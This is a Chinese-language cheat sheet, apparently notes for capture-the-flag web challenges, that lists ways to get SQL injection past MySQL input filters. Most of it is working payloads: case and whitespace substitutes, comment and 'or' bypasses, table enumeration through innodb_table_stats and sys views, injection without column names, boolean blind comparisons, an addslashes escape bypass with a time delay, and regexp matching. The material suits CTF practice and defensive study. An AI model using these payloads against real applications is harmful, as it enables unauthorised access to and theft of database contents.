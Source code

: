 ## **大写绕过**
select被过滤，试试Select
```
mysql 8.0.19新增语句table

table table_name

过滤select可以使用table代替
```

^
## **编码绕过**
is_numeric($_GET['id']) ，过滤只允许数字，16进制编码sql注入。

^
## **空格被过滤**
+空格过滤可以利用/**/代替空格。
```
有的时候是union select被过滤，union/**/select也可以绕过
```
编码绕过
```
%09  制表符table

%0a
%0b
%0c
%0d
```


利用括号，括号住变量。
```
所有库
select(group_concat(schema_name))from(information_schema.schemata)
库所有表
select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())
```

^
## **注释符被过滤**
```
1、#编码用%23
2、将后面的单引号闭合即可。'or(id=26)and'1'='1   
or '1'='1
```
^
## **or 被过滤导致orderby、information_schema都不能用**
用其他逻辑运算符and ， && ， &， |  ,1^1^
查表名使用 
```
select group_concat(table_name）from mysql.innodb_table_stats where database_name=database()
```
如果information_schema被禁止，通过sys.schema获取当前数据库表名
```
1&&ascii(substr((select group_concat(table_name)from sys.x$schema_flattened_keys where table_schema=database()),1,1))=103
2||ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{},1))={}.format()
```

^
## **无字段名注入**
<https://www.cnblogs.com/hello-there/p/12918265.html>
知道表名，不知道字段名。分析字段数，再统一查某个字段的所有值。
```
表的字段数判断：select 1,2 union select * from user  试出字段数。

再直接查出值，无需知道字段名，查出原表第2的字段的所有记录值
select 1,2 union select * from user;

select `2` from  (select 1,2 union select * from user) as u
select u.2 from (select 1,2 union select * from users) as u

整合
select group_concat(`2`) from  (select 1,2 union select * from user) as u 


1. 列名需要用``包裹起来，字段名为数字，则`2`

2. 使用子查询的时候,即一个查询嵌套在另一个查询中,内层查询的结果可以作为外层查询的条件,内层查询到的结果需要起一个别名(as)
```

## **布尔中知道表名，不知字段名注入，布尔加无列名注入**
已知可以布尔盲注，但不知道字段名，直接无列名注入
```
表中如果有多个记录值：要条件查询成一条，一般都是一条。where flag like "f%"

表的字段数判断：select 1,2 union select * from user  试出字段数。

一个字段一条记录
select((select "{}")>(select * from f1ag_1s_h3r3_hhhhh))
两个字段一条记录，获取字段
select((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))

select((select 1,"fla")>(select * from f1ag_1s_h3r3_hhhhh))
通过flb>flag{xxx} 比较结果1或0即可
当为1时的回显，值-1就是正确字符
2||((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))
```






^
^
## **函数等效替换**
报错函数被过滤，寻找顶替。



^
## **存在转义函数addslashes绕过**
```
addslashes($id);
将字符串里面的' " \等转义。
'将变成\'


如果此时下面存在，特殊字符去除 \0 %00 \' '
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);

那么传入\0 先变成\\0 再变成\
如果是sql语句\就会转义后面字符。
select * from images where id='{$id}' or path='{$path}'

select * from images where id='\' or path='   {$path}'
这里'\' or path = ' 成了一个单独字符串
$path就可以随意注入
or sleep(3)--+
```

^
如果是数值传参，如果是)闭合，直接不传入"和\即可绕过：
```
addslashes($id);
$res = $conn->query("SELECT `username` FROM ctfshow_users WHERE id = ($id)");

?id=222)%20union%20select%20group_concat(table_name)%20from%20mysql.innodb_table_stats%20where%20database_name%20=%20database()%23
```

^
## **where后=和like被过滤，用字段名使用正则模糊匹配字段的值**
需要知道字段名
```
select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')

select flag from Flag where flag regexp "^f";

flag like "f%"
```